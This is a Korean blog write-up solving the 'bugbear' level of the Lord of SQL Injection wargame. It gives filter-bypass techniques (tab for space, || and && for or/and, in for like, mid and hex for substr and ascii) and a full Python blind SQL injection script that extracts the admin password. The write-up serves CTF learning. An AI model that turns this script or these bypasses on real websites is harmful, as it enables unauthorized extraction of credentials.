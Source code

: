 ```yaml
---
title: LOS - 13번 bugbear
category: Lord of SQL Injection
---
```


# [13] bugbear

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbLtSV8%2Fbtrnpm1hg3C%2F5J4zNxs1CJ1BkZonWk6lS1%2Fimg.png">

## 풀이

보자마자 preg_match에 뭐가 좀 많다.

하나하나 살펴본다.

<br>

필터링 사항이다.

① 싱글쿼터

② substr

③ ascii

④ =

⑤ or/and

⑥ 공백

⑦ like

⑧ 0x

<br> 

지금까지의 필터링 사항을 몽땅 다 집어넣었다.

<br>

추가로 like에 대한 필터링까지 적용되었는데, 이에 대한 우회 방법은 다음과 같다.

(0x는 헥사코드를 직접적으로만 안쓰면 된다..) 

① like → in

⇒ ex. id like "admin" → id in ("admin")

<br> 

그리고 또 한가지 특이사항이 있다.

저번 문제에서는 ascii를 ord로 우회했었다.

그러나 이번 문제에서는 or을 필터링하고 있기 때문에 ord도 해당 필터에 걸려버린다.

(이 부분을 간과해서 시간을 잡아먹었다...)

<br> 

따라서 이번 문제에서는 ascii를 **hex**로 우회해준다.

hex 함수는 이름 그대로, 문자를 ascii가 아닌 hex로 나타내주는 함수이다.

hex의 반환 타입은 string이기에 단순 숫자로 취급하여 대소 비교를 해줄 수는 없다.

때문에 in을 사용하여 문자열 일치 확인을 해줄 것이다.

이 때, 비교 대상으로 사용할 ascii값도 hex로 변환하여 비교해준다.

⇒ ex. hex(mid(...)) in (hex(1))

<br>

한편, 준비된 쿼리문은 12번 문제와 동일하기 때문에,

쿼리문 변조 방향에 대한 상세한 설명은 이전 포스팅으로 대체한다.

 
<br>
 

이상의 내용을 반영하여 자동화 코드의 **check_length()** 를 다음과 같이 수정해준다.

```python
def check_length(url, cookie):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?no=0||id%09in%09(\"admin\")%26%26length(pw)>{num}%09%23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num
```
① or/and → ||, %26%26

② 공백 → %09

③ like → in

 
<br>
 

다음으로는 **blind_sqli()** 를 다음과 같이 수정해준다.

```python
def blind_sqli(url, cookie, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?no=0||id%09in%09(\"admin\")%26%26hex(mid(pw,{len},1))%09in%09(hex({ran}))%09%23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans
```

① or/and → ||, %26%26

② 공백 → %09

③ like → in

④ substr → mid

⑤ ascii → hex

 
<br>
 

**수정된 Python 자동화 코드의 전문**이다.

```python
import requests

def check_length(url, cookie):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?no=0||id%09in%09(\"admin\")%26%26length(pw)>{num}%09%23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num

def blind_sqli(url, cookie, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?no=0||id%09in%09(\"admin\")%26%26hex(mid(pw,{len},1))%09in%09(hex({ran}))%09%23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans

if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    
    length=check_length(url, cookie)
    print(f"👏 pw의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, length)
    print(f"👏 pw의 정체는 {ans}입니다!")
    
    exit
```

<img width src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbnT6Iq%2FbtrnrkVXp3E%2FB0kaNZJZYO5fBkBBsnzkh0%2Fimg.png">

Blind 공격 결과, admin의 pw는 `52dc3991` 이다.

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdC3vzR%2FbtrnktUFiVR%2FEKEDpBeOAVsMfdTukaBKY0%2Fimg.png">